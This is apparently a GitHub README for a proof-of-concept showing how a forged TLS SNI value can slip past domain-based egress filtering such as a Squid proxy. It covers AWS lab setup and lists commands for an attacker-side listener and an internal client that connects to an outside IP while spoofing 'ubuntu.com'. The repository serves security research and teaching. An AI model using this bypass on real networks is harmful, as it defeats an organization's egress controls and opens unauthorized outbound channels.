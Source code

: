 # SNI Manipulation

This project demonstrates a proof-of-concept for Server Name Indication (SNI) manipulation in TLS connections
to bypass egress HTTP traffic controls that filter by domain.

## Overview

SNI manipulation is a technique to bypass HTTP traffic controls that filter by domain by forging the SNI value in the TLS handshake.

IP addresses are ephemeral and change often with cloud-hosted services, making IP address filters harder to maintain and more likely to break.
Domain filtering is easier to maintain and is less likely to break, but most connections are encrypted by default.
There are two options for filtering encrypted traffic by domain:
1. SNI inspection of the TLS handshake
2. TLS decryption and inspection of the payload

SNI inspection relies on a value supplied by the client during the TLS handshake, a variant of "trusting the client".
This opens domain filtering by SNI inspection up to spoofing attacks (SNI manipulation).

## Components

- A Squid proxy service that filters traffic by SNI.
- A client that makes outbound TLS requests with a spoofed SNI value.
- A service that accepts TLS connections and prints the SNI value from the TLS handshake.

## Getting Started

Clone the repository and build the project.

```
git clone https://github.com/DivergentCodes/sec-poc
cd sni-manipulation
make build
```

Start the service and then run the client.

```
go run client.go
go run server.go
```

## Full Example with a Terraformed AWS Environment

Deploy the environment with Terraform.

```
cd terraform
export AWS_PROFILE="<your-profile>"
terraform init
terraform apply
```

Connect to the NAT instance.

```
ssh -i ./ssh/id_ed25519 \
    -o IdentitiesOnly=yes \
    ubuntu@<NAT-instance-public-ip>
```

Connect to the private instance by using the NAT instance as a jump host.

```
ssh -v -i ./ssh/id_ed25519 \
    -o IdentitiesOnly=yes \
    -o ProxyCommand="ssh -i ./ssh/id_ed25519 -o IdentitiesOnly=yes -W %h:%p ubuntu@<NAT-instance-public-ip>" \
    ubuntu@<private-instance-private-ip>
```

## Commands

On the filtering host, watch passing SNI fields using `tcpdump`.

```sh
sudo tcpdump -i any -n -A -s0 port 443 | grep -e '\.\(com\|org\|net\|io\)'
```

On the attacker host, have the service listen on all interfaces.

```sh
sudo ./server 0.0.0.0 443
```

On the internal host, have the client connect to the attacker server,
forging the SNI value.

```sh
./client https://3.87.129.194 ubuntu.com
```


## Ethical Considerations

This example is intended for educational and research purposes only. Always obtain proper authorization before testing on any networks or systems you do not own or have explicit permission to test.

## Resources

- [RFC 6066 - Transport Layer Security (TLS) Extensions: Extension Definitions](https://tools.ietf.org/html/rfc6066#section-3)
- [IETF Draft: TLS Encrypted Client Hello](https://datatracker.ietf.org/doc/draft-ietf-tls-esni/)
- [Encrypted SNI for Firefox](https://blog.mozilla.org/security/2018/10/18/encrypted-sni-comes-to-firefox-nightly/)